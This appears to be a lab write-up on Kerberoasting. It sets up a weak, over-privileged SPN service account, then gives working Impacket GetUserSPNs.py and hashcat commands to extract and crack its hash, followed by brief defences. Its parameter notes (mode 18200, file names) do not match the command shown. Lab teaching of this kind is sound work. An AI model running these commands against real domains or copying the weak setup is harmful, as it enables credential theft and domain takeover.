 # Kerberoasting

## Configuring



1. Login to `DC01` with the `Administrator` user and the password `Welcome01!`.
2. Open PowerShell as administrator and execute the following commands to create a user with the name `sa_admin` and set a SPN for it:

```
net user sa_admin Welcome123456! /add
setspn -A MSSQLsvc/DC03:1433 sa_admin
```

3\. Execute the following command to make the user `Enterprise Admin` and `Domain Admin`:

```
Add-ADGroupMember -Identity "Enterprise Admins" -Members sa_admin
Add-ADGroupMember -Identity "Domain Admins" -Members sa_admin
```

## Attacking

### How it works

> Service principal names (SPNs) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically tasked with running a service.
>
> Adversaries possessing a valid Kerberos ticket-granting ticket (TGT) may request one or more Kerberos ticket-granting service (TGS) service tickets for any SPN from a domain controller (DC). Portions of these tickets may be encrypted with the RC4 algorithm, meaning the Kerberos 5 TGS-REP etype 23 hash of the service account associated with the SPN is used as the private key and is thus vulnerable to offline Brute Force attacks that may expose plaintext credentials
>
> Source: [https://attack.mitre.org/techniques/T1558/003/](https://attack.mitre.org/techniques/T1558/003/)

### Tools

* [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)

### Executing the attack

1. Use the discovered credentials `john` and password `Welcome2022!` with [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from Impacket to Kerberoast all roastable users.

```
python3 /opt/impacket/examples/GetUserSPNs.py 'amsterdam.bank.local/john:Welcome2022!' -dc-ip 10.0.0.2 -target-domain bank.local -outputfile kerberoast.txt
cat kerberoast.txt
```

![](<../../.gitbook/assets/image (14) (2).png>)

2\. We retrieved one hash. Lets crack it with Hashcat. The parameters are:

* Crackingmode: `-a 0` for using a wordlist
* Hashmode: `-m 18200` for Kerberos 5, etype 23, AS-REP
* List with hashes: `kerberoasting.txt`
* Passwords list: `passwords.txt`
* Rule list: `-r rules.rule`

```
.\hashcat.exe -a 0 -m 13100 .\kerberoast.txt .\wordlists\rockyou.txt -r .\rules\dive.rule
```

![](<../../.gitbook/assets/image (34) (1) (1).png>)

We successfully cracked the password of the user `sa_admin`, the password is `Welcome123456!`

## Defending

### Recommendations

* Use [Group Managed Service Accounts or Managed Service Accounts.](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview)
* Limit the privileges of Service Accounts.
* Use strong passwords (at least 32 characters) on service accounts.

### Detection



## References

{% embed url="https://attack.mitre.org/techniques/T1558/003/" %}

{% embed url="https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview" %}

